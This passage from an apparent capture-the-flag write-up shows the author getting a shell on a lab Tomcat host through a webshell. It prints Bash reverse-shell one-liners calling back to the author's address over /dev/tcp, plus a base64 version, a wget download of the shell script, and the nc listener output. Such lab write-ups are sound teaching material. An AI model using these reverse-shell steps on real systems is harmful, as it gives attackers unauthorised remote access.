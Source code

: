 #### Shell

I’ll try some [Bash reverse shells](https://www.youtube.com/watch?v=OjkVep2EIlw) in the command input, but none result in a shell. I’m not surprised, as Java is especially tricky about pipes and redirects in this kind of injection.

I’ll try a base64-encoded version:

```

oxdf@hacky$ echo 'bash  -i >& /dev/tcp/10.10.14.6/443 0>&1 ' | base64
YmFzaCAgLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuNi80NDMgMD4mMSAK

```

On entering that, it still doesn’t return a shell. The page shows why:

![image-20250126151254961](/img/image-20250126151254961.png)

The pipes are being included in the string that gets `echo`ed.

I’ll create a simple shell script:

```

#!/bin/bash

bash -i >& /dev/tcp/10.10.14.6/443 0>&1

```

I’ll use a Python webserver to host this file, and upload it using `wget` in the webshell:

![image-20250126151554945](/img/image-20250126151554945.png)

It gets it from my webserver:

```
10.10.11.59 - - [26/Jan/2025 15:15:59] "GET /shell.sh HTTP/1.1" 200 -

```

And it’s there:

![image-20250126151615059](/img/image-20250126151615059.png)

I’ll run `bash /dev/shm/shell.sh` via the webshell, and the page hangs, but there’s a connection at `nc`:

```

oxdf@hacky$ nc -lnvp 443
Listening on 0.0.0.0 443
Connection received on 10.10.11.59 48648
bash: cannot set terminal process group (991): Inappropriate ioctl for device
bash: no job control in this shell
tomcat@strutted:~$

```
